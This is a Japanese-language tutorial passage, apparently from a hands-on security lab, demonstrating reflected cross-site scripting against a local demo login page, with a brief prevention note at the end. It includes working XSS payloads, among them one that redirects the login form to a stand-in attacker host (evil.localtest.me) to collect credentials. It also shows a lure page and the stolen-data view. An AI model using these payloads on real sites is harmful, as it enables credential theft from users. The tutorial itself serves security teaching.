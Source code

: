 <a target="_blank" href="http://localhost:8080/login?message=<s>hello</s>">http://localhost:8080/login?message=\<s\>hello\</s\></a>

取り消されたhelloが表示され、エスケープ漏れがあることが分かりました。次に期待するのはスクリプトの混入です。

<a target="_blank" href="http://localhost:8080/login?message=<script>alert(1)</script>">http://localhost:8080/login?message=\<script\>alert(1)\</script\></a>


`1`がアラートされ、スクリプトの混入に成功したことが分かります。このように、別のサイト（クロスサイト）からスクリプトを混入できる脆弱性を狙った攻撃を、クロスサイト・スクリプティング（Xross Site Scripting: XSS、もしくは、Cross Site Scripting: CSS）と呼びます。

上記したように、URL自体にスクリプトを混入するXSSは反射型（Reflected）XSSと呼ばれます。詳しくは後ほど解説します。

攻撃者は自分の持つ攻撃用サイトを立ち上げ、正規の利用者が正規のログイン画面に入力した情報を盗み出すことを思いつきます。

攻撃用サイトを起動するには、別のコマンドプロンプトを立ち上げて、`evil.js`を実行します（Dockerを使っている場合すでに起動しています）。成功すればevil.localtest.meというホスト名の8081ポートで起動します。起動に失敗したり、起動できてもWebブラウザーからアクセスできない場合には、すでに8081番ポートが使われている可能性があります。例えば、8082など、別のポート番号にコードを書き換えて起動しなおしてください。`evil.js`の`PORT`の値を変更します。

```console
$ node evil.js
```

XSSが成功すると、攻撃者がログイン画面にスクリプトを混入できるので、同じログイン画面にもかかわらずフォームの登録先サーバーを変更できてしまいます。正規の利用者が次のURLをクリックすると、画面上は何も変わりがありませんが、実は向き先の変わっているログイン画面が表示されます。

<a target="_blank" href="http://localhost:8080/login?message=<script>window.onload=function(){document.querySelector('form').action='http://evil.localtest.me:8081/users'}</script>">http://localhost:8080/login?message=\<script\>window.onload=function(){document.querySelector('form').action='http://evil.localtest.me:8081/users'}\</script\></a>

上記のURLに仕込まれているスクリプトを書き下すと、次のようになります。

```javascript
window.onload = function() {
  document.querySelector('form').action='http://evil.localtest.me:8081/users'
}
```

window.onload はページの読み込みが終了すると実行されます。フォームの```action```属性を攻撃者のサイト```evil.localhost.me```に変更しています。

攻撃者はこのスクリプトが混入したURLを、正規の利用者に何とかクリックさせようと試みます。例えば、攻撃用サイトを使って、甘い言葉で正規の利用者にクリックを促します。

<a target="_blank" href="http://evil.localtest.me:8081/game0">http://evil.localtest.me:8081/game0</a>

利用者が送信ボタンを押してしまうと入力した情報が攻撃者に渡ってしまいます。攻撃者が盗み出した情報をWebブラウザーで確認してみましょう。これまでに集めた情報の一覧が表示されます。

<a target="_blank" href="http://evil.localtest.me:8081/users">http://evil.localtest.me:8081/users</a>

### XSSを防ぐには

意図しないエスケープ漏れをなくしましょう！

攻撃者は様々な手法で不正アクセスを試みます。XSSのゲームを通じて手法を学びつつ、セキュリティ診断ツールも活用してセキュリティを確保しましょう。

- XSS game https://xss-game.appspot.com/
- prompt(1) to win - 0x0 https://prompt.ml/0
